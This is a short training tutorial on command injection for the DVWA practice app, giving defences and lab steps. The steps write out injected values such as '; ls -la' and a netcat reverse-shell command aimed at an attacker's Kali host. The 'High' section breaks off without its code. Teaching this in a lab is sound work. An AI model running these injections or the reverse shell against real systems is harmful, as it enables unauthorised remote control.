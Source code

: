 ## 1. Command Execution/Injection:
- A vulnerability that allows an attacker to execute arbitrary Linux/windows commands in the Input field on a site.

### Real Life Example:
- Imagine a website that allows users to search for files by entering a filename. If the `website doesn't properly sanitize user input`, an attacker could input malicious commands instead of filenames. 
- For instance, if the attacker inputs "; ls -la", it could execute the "ls -la" command on the server, listing all files in the directory.

### How to Avoid it:
```
To avoid command execution vulnerabilities, developers should implement proper input validation and sanitization techniques.
Use parameterized queries or prepared statements to interact with databases, preventing SQL injection attacks.
Avoid executing system commands based on user input. If unavoidable, use safe APIs or libraries that automatically handle input sanitization.
Apply principle of least privilege, ensuring that application processes have only the necessary permissions to execute specific commands.
Regularly update and patch software to fix known vulnerabilities that could be exploited for command execution.
```

### Practical:
> Security: Low
- Open DVWA > Set Security: Low > Command Execution: `192.168.0.0 ; ls -la` or `192.168.0.0 && ls -la`
- ![image](https://github.com/IOxCyber/ZtoM_Bootcamp/assets/40174034/eb9cd546-bffe-484f-af97-e4c6c44ba878)

- To exploit > Use `natcat/nc` > Listen On Kali: `nc -lvp (Listen, Verbose, Port) 12345` > Execute On DVWA in Command Execution: `192.168.0.0 ; nc -e /bin/bash <kali-IP> <Port>`
> -e /bin/bash: Specifies that Netcat should execute /bin/bash upon successfully establishing a connection. This effectively creates a remote shell (reverse shell) on the target machine.

> Security: Mid
- Open DVWA > Set Security: Low > Command Execution: `192.168.0.0 | ls -la` or `192.168.0.0 & ls -la`
- To exploit > Use `natcat/nc` > Listen On Kali: `nc -lvp (Listen, Verbose, Port) 12345` > Execute On DVWA in Command Execution: `192.168.0.0 ; nc -e /bin/bash <kali-IP> <Port>`

> Security: High
- The Code should written like this.










